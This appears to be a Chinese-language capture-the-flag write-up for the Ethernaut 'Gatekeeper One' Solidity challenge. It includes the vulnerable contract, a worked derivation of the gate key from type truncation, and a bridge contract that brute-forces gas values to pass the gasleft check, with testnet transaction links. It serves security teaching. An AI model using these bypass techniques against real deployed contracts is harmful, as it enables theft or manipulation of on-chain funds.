

# level 13: Gatekeeper One

## 1. 问题

要求你成功调用 `GatekeeperOne` 合约的 `enter` 函数，函数成功执行不抛异常。也就是可以通过函数内的所有校验。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

## 2. 解法

函数有3个 `modifier`, 我们只要分别通过这个校验即可

### 2.1. `gateOne`

1. `gateOne` 只校验 `msg.sender != tx.origin`, 我们只要通过一个中间合约来调用 `GatekeeperOne` 合约即可通过这个校验


### 2.2. `gateThree` 
2. 我们先看 `gateThree`, 他需要入参 `_gateKey` 满足几个类型转换结果。我们用chisel做一下测试：

```solidity
// 测试一下截取情况
bytes8 _gateKey=hex"0102030405060708";
// 看下几个require语句中左边的目标值
uint32 left = uint32(uint64(_gateKey))
// 看下第一个require右边的值
uint16 right1 = uint16(uint64(_gateKey))
// 看下第二个require右边的值
uint64 right2 = uint64(_gateKey)
// 随便找一个随机的地址，看下第三个require右边的值
uint16 right3 = uint16(uint160(address(bytes20(hex"D5691358Aa1b5eBB8af26Ad0Aba3CBD74b31690a"))))
```



> [!NOTE]
> 通过观察上面的结果我们发现:
> * left和right1只在 `0506` 所在的2个字节处理不一样，如果想要第一个require满足，我们只要将 `_gateKey` 的这2个字节设置为0
> * left和right2在 `05060708`这四个字节处理是一样的，所以如果想要第二个require满足，也就是想要left不等于right，那么 `_gateKey` 的前4个字节不能都为0
> * right3会把原始地址的最后2个字节保留，所以如果第三个require要满足，如果想要left和right3相等，那么 `_gateKey` 的最后2个字节要和 `tx.orign`, 也就是我们的EOA地址一致

3. 我们使用的EOA地址结尾为 `fB2c`, 所以我们设置的 `_gateKey` 为 `0x010203040000fb2c`


### 2.3. `gateTwo`
4. 我们最后看`gateTwo`。 他要求 `gasleft() % 8191 == 0`。一方面我们可以通过 `GatekeeperOne.call{gas: XXX}(abi.encodeWithSignature("enter(bytes8)", YYYY))` 来设置 `enter` 函数的总 gas。

5. 因为函数的入参传递等操作也可能消耗gas，所以我们很难直接估算出一个精确的gas。所以我们直接部署一个合约，暴力尝试：

```solidity
contract GatekeeperBridge {
    GatekeeperOne private gatekeeperone;

    constructor(address _gatekeeperone) {
        gatekeeperone = GatekeeperOne(_gatekeeperone);
    }

    function myCall(bytes8 _gateKey) external {
        // console.log("mycall tx.origin: %s, msg.sender: %s", tx.origin, msg.sender);
        for (uint256 gas1 = 0; gas1 < 8000; gas1++) {
            try gatekeeperone.enter{gas: 8191*3 + gas1}(_gateKey) {
                // console.log("target gas: %s", gas1);
                break;
            } catch (bytes memory reason) {
                // console.log("revert reason: %s", string(reason));
                continue;
            }
        }
    }
}
```

6. 注意这个可能会消耗很多的gas。因为只有尝试到正确的 `gas1` 的值才会停止。所以我们写一个单测 [Level13_localTest.t.sol](../../test/level13/Level13_localTest.t.sol) 估算一下 `gas1` 的范围，得到相对靠谱的：

```bash
forge test -vv --match-contract Level13Test
```


7. 所以我们可以优化这个循环，改成从200开始： `for (uint256 gas1 = 200; gas1 < 300; gas1++) {`

8. 在 remix 中编译并且部署这个合约， 交易地址 [0x8af8f7a9081fa071f87f2d79d7248143558c2228d9b23fc6e469b47ea36bbefd](https://sepolia.etherscan.io/tx/0x8af8f7a9081fa071f87f2d79d7248143558c2228d9b23fc6e469b47ea36bbefd)

9. 在 remix 中调用 `myCall` 接口，触发执行，交易地址 [0x8e2445887064bf108faf6a423b566f06769d40d96896edd297f8c7c37bc11419](https://sepolia.etherscan.io/tx/0x8e2445887064bf108faf6a423b566f06769d40d96896edd297f8c7c37bc11419)

10. 点击 `submit instance`， 提交通过！

| [⬅️ level12 Privacy](../level12_privacy/README.md) | [level14 Gatekeeper Two ➡️](../level14_gatekeeper_two/README.md) |
|:------------------------------|--------------------------:|